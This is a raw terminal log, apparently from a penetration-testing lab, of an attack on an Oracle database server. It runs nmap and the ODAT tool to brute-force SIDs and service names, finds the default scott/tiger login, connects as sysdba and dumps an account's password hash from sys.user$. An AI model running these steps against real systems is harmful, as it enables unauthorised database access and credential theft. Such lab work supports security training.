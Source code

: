 sudo snamnmap --sV 10.12.119.116.134 --open -tT4
[?2004lStarting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-19 08:58 BST
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.25 seconds
[?2004h(env) ┌─[parrot@parrot]─[~/odat]
└──╼ $└──╼ $sudo nmap -sV 10.129.116.134 --open -T4
[?2004lStarting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-19 08:59 BST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.34 seconds
[?2004h(env) ┌─[parrot@parrot]─[~/odat]
└──╼ $sudo nmap -sV 10.129.116.134 --open -T4[C[C[C[C[C[Cclearpython3 odat.py all -s 10.129.116.134[3P10.129.116.134all 10.129.116.134-s 10.129.116.134
[?2004l[+] Checking if target 10.129.116.134:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.116.134:1521 is well configured. Continue...

[1] (10.129.116.134:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] Impossible to know if target is vulnerable to a remote TNS poisoning because SID is not given.

[2] (10.129.116.134:1521): Searching valid SIDs
[2.1] Searching valid SIDs thanks to a well known SID list on the 10.129.116.134:1521 server
+] SIDs found on the 10.129.116.134:1521 server: XE

[3] (10.129.116.134:1521): Searching valid Service Names
[3.1] Searching valid Service Names thanks to a well known Service Name list on the 10.129.116.134:1521 server
+] 'XEXDB' is a valid Service Name. Continue...                
100% |#######################################################################################################################################################################| Time: 00:02:03 
[3.2] Searching valid Service Names thanks to a brute-force attack on 1 chars now (10.129.116.134:1521)
[3.3] Searching valid Service Names thanks to a brute-force attack on 2 chars now (10.129.116.134:1521)
[+] Service Name(s) found on the 10.129.116.134:1521 server: XE,XEXDB
[!] Notice: SID 'XE' found. Service Name 'XE' found too: Identical database instance. Removing Service Name 'XE' from Service Name list in order to don't do same checks twice

[4] (10.129.116.134:1521): Searching valid accounts on the XE SID
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[+] Accounts found on 10.129.116.134:1521/sid:XE: 
scott/tiger


[5] (10.129.116.134:1521): Searching valid accounts on the XEXDB Service Name
  0% |                                                                                                                                                                       | ETA:  --:--:-- The login abm has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
s
100% |#######################################################################################################################################################################| Time: 00:00:10 
[-] No found a valid account on 10.129.116.134:1521/XEXDB. You should try with the option '--accounts-file accounts/accounts_multiple.txt' or '--accounts-files accounts/logins.txt accounts/pwds.txt'

[6] (10.129.116.134:1521): Testing all authenticated modules on sid:XE with the scott/tiger account
[6.1] UTL_HTTP library ?
[-] KO
[6.2] HTTPURITYPE library ?
09:15:34 WARNING -: Impossible to fetch all the rows of the query select httpuritype('http://0.0.0.0/').getclob() from dual: `ORA-29273: HTTP request failed ORA-06512: at "SYS.UTL_HTTP", line 1819 ORA-24247: network access denied by access control list (ACL) ORA-06512: at "SYS.HTTPURITYPE", line 34`
[-] K[7] (10.129.116.134:1521): Oracle users have not the password identical to the username ?
  0% |                                                                                                                                                                       | ETA:  --:--:--   2% |####                                                                                                                                                                   | ETA:  00:00:00 [!] Notice: 'XS$NULL' account is locked, so skipping this username for password
  5% |#########                                                                                                                                                              | ETA:  00:00:09 The login XS$NULL has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
s
[-] No found a valid account on 10.129.116.134:1521/sid:XE with usernameLikePassword module
[?2004h(env) ┌─[parrot@parrot]─[~/odat]
└──╼ $sqlplus scott/tiger@10.129.116.134/XE as sysdba
[?2004l
SQL*Plus: Release 21.0.0.0.0 - Production on Sun May 19 09:16:44 2024
Version 21.12.0.0.0

Copyright (c) 1982, 2022, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> SELECT name, password FROM sys.user$ WHERE name = 'DBSNMP';

NAME			       PASSWORD
------------------------------ ------------------------------
DBSNMP			       E066D214D5421CCC


